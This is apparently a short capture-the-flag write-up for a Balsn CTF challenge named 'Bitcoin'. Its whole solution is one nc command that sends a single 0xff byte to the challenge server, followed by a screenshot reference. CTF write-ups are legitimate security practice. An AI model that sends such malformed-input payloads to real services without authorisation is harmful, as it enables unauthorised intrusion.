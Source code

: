 



## Bitcoin

* simply send 

```
echo -e '\xff' | nc the-last-bitcoin.balsnctf.com 7123
```

![alt text](./bitcoin.png)


